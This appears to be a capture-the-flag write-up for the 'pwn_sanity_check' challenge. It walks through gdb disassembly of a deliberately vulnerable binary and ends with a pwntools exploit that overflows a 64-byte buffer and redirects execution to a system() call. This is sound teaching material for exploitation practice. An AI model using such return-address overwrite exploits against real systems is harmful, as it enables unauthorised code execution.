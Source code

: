 # Pwn sanity check

Start by running the binary:

```
$ ./pwn_sanity_check         
tell me a joke
knock knock
will this work?
```

It reads our entered data of "knock knock", prints "will this work?" and then
exits. Since it reads user supplied data, perhaps we can force a buffer
overflow?

```
$ python -c "print 'A' * 100" | ./pwn_sanity_check
tell me a joke
will this work?
zsh: done                python -c "print 'A' * 100" | 
zsh: segmentation fault  ./pwn_sanity_check
```

Sweet! Now that we know the code is vulnerable to a buffer overflow, let's
examine it in `gdb` to find what return address to set the instruction pointer
(rip) to.

```
$ gdb -q ./pwn_sanity_check
```

Now enter `disass <tab><tab>` (tab key twice) to view all the functions

```
(gdb) disass <tab><tab>
...truncated...
main	vuln	win	system		shell
...truncated...
```

First, check main:

```
(gdb) disass main
Dump of assembler code for function main:
   0x000000000040078c <+0>:     push   rbp
   0x000000000040078d <+1>:     mov    rbp,rsp
   0x0000000000400790 <+4>:     mov    edi,0xa
   0x0000000000400795 <+9>:     mov    eax,0x0
   0x000000000040079a <+14>:    call   0x400580 <alarm@plt>
   0x000000000040079f <+19>:    mov    eax,0x0
   0x00000000004007a4 <+24>:    call   0x400730 <vuln>
   0x00000000004007a9 <+29>:    mov    eax,0x0
   0x00000000004007ae <+34>:    pop    rbp
   0x00000000004007af <+35>:    ret
```

It sets an alarm that exits the program in 10 (0xa) seconds and calls the vuln
function. 

(Tip: to give yourself more time when debugging you can increase the alarm time
by entering:)

```
(gdb) set $edi=0xffff
```

Now the vuln function:

```
(gdb) disass vuln                                                                                                                                                                                                                          
Dump of assembler code for function vuln: 
   0x0000000000400730 <+0>:     push   rbp    
   0x0000000000400731 <+1>:     mov    rbp,rsp 
   0x0000000000400734 <+4>:     sub    rsp,0x40                                                                      
   0x0000000000400738 <+8>:     lea    rdi,[rip+0x1d1]        # 0x400910                                                              
   0x000000000040073f <+15>:    call   0x400550 <puts@plt>                                                           
   0x0000000000400744 <+20>:    mov    rdx,QWORD PTR [rip+0x200915]        # 0x601060 <stdin@@GLIBC_2.2.5>                            
   0x000000000040074b <+27>:    lea    rax,[rbp-0x40]
   0x000000000040074f <+31>:    mov    esi,0x100
   0x0000000000400754 <+36>:    mov    rdi,rax                                                                       
   0x0000000000400757 <+39>:    call   0x400590 <fgets@plt>          
   0x000000000040075c <+44>:    cmp    DWORD PTR [rbp-0x4],0xdeadc0de                                                                 
   0x0000000000400763 <+51>:    jne    0x40077d <vuln+77>                                                            
   0x0000000000400765 <+53>:    lea    rdi,[rip+0x1b4]        # 0x400920                                                              
   0x000000000040076c <+60>:    call   0x400550 <puts@plt>
   0x0000000000400771 <+65>:    mov    eax,0x0         
   0x0000000000400776 <+70>:    call   0x4006f4 <shell>  
   0x000000000040077b <+75>:    jmp    0x400789 <vuln+89>                                                            
   0x000000000040077d <+77>:    lea    rdi,[rip+0x1c1]        # 0x400945                                                              
   0x0000000000400784 <+84>:    call   0x400550 <puts@plt>         
   0x0000000000400789 <+89>:    nop                                
   0x000000000040078a <+90>:    leave                              
   0x000000000040078b <+91>:    ret
```

On line <+27> we see that 64 bytes (0x40) of stack space are being allocated for
our input buffer. So we can cause a buffer overflow with 72 bytes of data (64
for input buffer + 8 for base pointer).

But where do we set the instruction pointer to return to? Let's check out that
win function we say earlier.

```
(gdb) disass win
Dump of assembler code for function win:
   0x0000000000400697 <+0>:     push   rbp
   0x0000000000400698 <+1>:     mov    rbp,rsp
   0x000000000040069b <+4>:     sub    rsp,0x10
   0x000000000040069f <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x00000000004006a2 <+11>:    mov    DWORD PTR [rbp-0x8],esi
   0x00000000004006a5 <+14>:    lea    rdi,[rip+0x18c]        # 0x400838
   0x00000000004006ac <+21>:    call   0x400550 <puts@plt>
   0x00000000004006b1 <+26>:    cmp    DWORD PTR [rbp-0x4],0xdeadbeef
   0x00000000004006b8 <+33>:    jne    0x4006f1 <win+90>
   0x00000000004006ba <+35>:    lea    rdi,[rip+0x1b7]        # 0x400878
   0x00000000004006c1 <+42>:    call   0x400550 <puts@plt>
   0x00000000004006c6 <+47>:    cmp    DWORD PTR [rbp-0x8],0x1337c0de
   0x00000000004006cd <+54>:    jne    0x4006f1 <win+90>
   0x00000000004006cf <+56>:    lea    rdi,[rip+0x1b7]        # 0x40088d
   0x00000000004006d6 <+63>:    call   0x400550 <puts@plt>
   0x00000000004006db <+68>:    lea    rdi,[rip+0x1bc]        # 0x40089e
   0x00000000004006e2 <+75>:    call   0x400560 <system@plt>
   0x00000000004006e7 <+80>:    mov    edi,0x0
   0x00000000004006ec <+85>:    call   0x4005a0 <exit@plt>
   0x00000000004006f1 <+90>:    nop
   0x00000000004006f2 <+91>:    leave  
   0x00000000004006f3 <+92>:    ret
```

We *could* return to the starting address of win (0x400697), but then we would
have to pass the comparison checks on lines <+26> and <+47>. We can save
ourselves the headache by jumping closer to the system call. I chose address
0x4006cf.

Here is my python script:

```
#!/usr/bin/env python3
from pwn import *

LOCAL=True

binary = "./pwn_sanity_check"

context.binary = binary

if LOCAL:
	p = process(binary)
else:
	p = remote("dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io", 7480)

# Overflow buffer 
payload = b"A" * 72  		# 60 bytes for buffer, 4 for local integer, and 8 for rbp
payload += p64(0x4006cf)	# bypass parameter checks in win() function

p.readuntil("tell me a joke\n")
p.sendline(payload)

p.interactive()
```
